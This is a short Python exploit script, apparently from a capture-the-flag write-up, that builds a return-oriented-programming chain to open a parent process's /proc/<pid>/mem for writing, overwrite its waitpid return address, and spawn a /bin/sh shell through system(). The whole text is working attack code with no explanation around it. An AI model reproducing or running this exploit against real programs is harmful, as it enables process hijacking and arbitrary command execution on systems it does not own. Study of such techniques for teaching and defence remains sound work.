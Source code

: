 ```python

# make "/proc/ppid/mem"
payload = p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(child_base + 0x1000) # /proc/ppid/mem
payload += p64(pop_rdx)
payload += p64(0x1000)
payload += p64(read_addr)

# make ROP chain 2
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(pop_rsi)
payload += p64(child_base + 0x2000) # ROP chain 2
payload += p64(pop_rdx)
payload += p64(0x1000)
payload += p64(read_addr)

# close fd 
payload += p64(pop_rdi)
payload += p64(0x8000000000000002)
payload += p64(close_addr)

# open /proc/ppid/mem w
payload += p64(pop_rdi)
payload += p64(child_base + 0x1000)
payload += p64(pop_rsi)
payload += p64(2) # w permission
payload += p64(open_addr)

# lseek(2, parent_waitpid_ret, 0)
payload += p64(pop_rdi)
payload += p64(2)
payload += p64(pop_rsi)
payload += p64(parent_waitpid_ret)
payload += p64(pop_rdx)
payload += p64(0)
payload += p64(lseek_addr)

# write
payload += p64(pop_rdi)
payload += p64(2)
payload += p64(pop_rsi)
payload += p64(child_base + 0x2000)
payload += p64(pop_rdx)
payload += p64(0x1000)
payload += p64(write_addr)

# exit
payload += p64(pop_rdi)
payload += p64(0)
payload += p64(exit_addr)


### execute ROP chain and parent_waitpid_ret overwrite ###
readfile('/proc/self/fd/0', 0, str(-0x80000000).ljust(0x28,'\x00')+p64(0)+p64(0)+p64(child_read_ret), payload, 'input')

r.sendline('/proc/{}/mem'.format(ppid) + '\x00')
r.sendline(p64(pop_rdi) + p64(binsh_addr) + p64(system_addr)) ## parent_waitpid_ret overwrite

r.interactive()
```